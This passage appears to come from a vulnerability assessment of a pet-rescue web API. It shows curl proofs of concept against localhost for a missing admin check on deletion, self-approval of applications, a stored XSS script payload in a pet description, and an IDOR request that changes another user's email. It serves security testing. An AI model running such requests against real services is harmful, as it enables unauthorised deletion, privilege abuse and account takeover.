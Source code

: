 ### **4. Rescue Deletion Without Admin Role:**
```bash
# Test regular user deleting rescue organization - SUCCESS ✅
curl -X DELETE http://localhost:3001/api/v1/admin/rescues/rescue_id \
  -H "Authorization: Bearer <regular_user_token>"
# Result: Rescue organization successfully deleted
```

### **5. Application Acceptance Access Control Flaw:**
```bash
# Test user approving their own application - SUCCESS ✅
curl -X PATCH http://localhost:3001/api/v1/applications/application_id/accept \
  -H "Authorization: Bearer <user_token>" \
  -H "Content-Type: application/json" \
  -d '{"status":"approved"}'
# Result: Request reached controller, demonstrating access control bypass
```

### **6. Stored XSS Vulnerability:**
```bash
# Test creating pet with malicious HTML/JavaScript - SUCCESS ✅
curl -X POST http://localhost:3001/api/v1/pets/rescue \
  -H "Authorization: Bearer <rescue_token>" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "XSS Test Pet",
    "species": "capybara",
    "age": 2,
    "size": "large",
    "description": "<script>alert(\"XSS Vulnerability!\")</script><p>Malicious content</p>",
    "imageUrl": "http://example.com/image.jpg",
    "rescueId": "rescue_id"
  }'
# Result: Pet created with malicious HTML stored in database

# Test retrieving pet with XSS payload - SUCCESS ✅
curl -X GET http://localhost:3001/api/v1/pets/pet_id
# Result: Returns unsanitized HTML content that executes in browser
```

## **Testing the Vulnerabilities**

### **IDOR Testing:**
```bash
# Test user profile modification
curl -X PUT http://localhost:3001/api/v1/users/456 \
  -H "Authorization: Bearer <user_123_token>" \
  -H "Content-Type: application/json" \
  -d '{"email":"hacked@evil.com"}'
```
